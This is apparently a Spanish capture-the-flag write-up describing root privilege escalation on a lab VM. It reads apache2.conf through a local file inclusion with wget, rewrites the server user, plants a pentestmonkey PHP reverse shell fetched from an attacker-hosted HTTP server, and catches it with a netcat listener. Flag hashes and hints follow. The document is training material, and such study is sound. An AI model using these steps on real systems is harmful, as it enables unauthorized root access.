Ahora ya solo nos queda por encontrar la quinta y última armadura.
Con ps aux | grep root detectamos los procesos que se ejecutan como root y con los que podríamos intentar escalar privilegios. Podemos ver que apache se ejecuta como root.

Vemos que el archivo apache2.conf tiene todos los permisos activos, eso significa que cualquier usuario puede leer, escribir y ejecutar.

Aprovechando el LFI descargamos el archivo de configuración de apache en nuestra máquina local linux para modificarlo.
Usamos el comando wget http://192.168.56.128/file.php?file=/etc/apache2/apache2.conf -O apache2.conf

Como anteriormente descubrimos al usuario aarti, tanto a través de LFI, como una vez ya dentro del sistema a través de meterpreter, ajustaremos el usuario y el grupo en el archivo de configuración de apache con aarti, tanto en usuario como en grupo.


Para poder enviar este archivo desde nuestra máquina local a nuestra máquina vulnerable debemos abrir un servidor

Por otra parte, desde la sesión meterpreter abierta ejecutaremos wget http://192.168.56.129:8000/apache2.conf -O apache2.conf para subir el archivo a la máquina y grep -E "^User|^Group" /etc/apache2/apache2.conf para comprobar que el archivo ha sido actualizado correctamente.

Ahora debemos crear el archivo con la Shell reversa. Como en otras ocasiones utilizaremos el código del siguiente enlace: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Debemos modificar la ip con la dirección de Kali y el puerto que deseamos para realizar la Shell reversa.

Volvemos a abrir el servidor Python para subir el archivo a la máquina vulnerable con python3 -m http.server 8000 y desde la sesión meterpreter descargamos el archivo con wget http://192.168.56.129:8000/shell.php

Ahora debemos reiniciar apache. Como por comando no nos va a dejar, lo más práctico es reiniciar la máquina virtual.
El archivo shell.php se subió correctamente

Después de varios intentos fallidos de ejecución del archivo desde el navegador, me percaté que no contaba con todos los permisos necesarios para funcionar de la manera correcta. Para ello le di todos los permisos con chmod 777 shell.php

Ahora ya podemos ejecutar el archivo desde el navegador. Veremos que se queda en una carga constante.

Desde Kali con nc -lvp 4444 nos pondremos a escuchar

Una vez que somos root buscamos la flag final que nos falta para terminar con el CTF.

Como podemos ver el archivo final.txt contiene la última armadura que estábamos buscando.


|
Ironman Armour | 3AE9D8799D1BB5E201E5704293BB54EF |
| Hulk Armour | 7BDA7019C06B53AEFC8EE95D2CDACCAA |
| Spiderman Armour | 83A75F0B31435193BAFD3B9C5FD45AEC |
| Ant Man Armour | A9F56B7ECE2113C9C4A1214A19EDE99C |
| Black Panther Armour | 690B4BAC6CA9FB81814128A294470F92 |
| Ironman Armour | 3AE9D8799D1BB5E201E5704293BB54EF |
| HINT 1 | TheOlympics |
| HINT 2 | maybeevena |
| HINT 3 | StarBucks |
| Herramienta | Uso |
|---|---|
| Nmap | Descubrimiento de hosts y escaneo de puertos |
| Gobuster | Fuzzing de directorios web |
| Dirbuster | Investigación de directorios |
| Nikto | Escáner de vulnerabilidades web |
| Metasploit | Explotación de vulnerabilidades (Tomcat) |
| Netcat (nc) | Establecimiento de reverse shell |
| tftp | Descarga de archivos del servicio TFTP |
| wget | Descarga de archivos vía HTTP |
La resolución de la máquina Avengers Armour me ha permitido poner en práctica técnicas fundamentales de ciberseguridad ofensiva: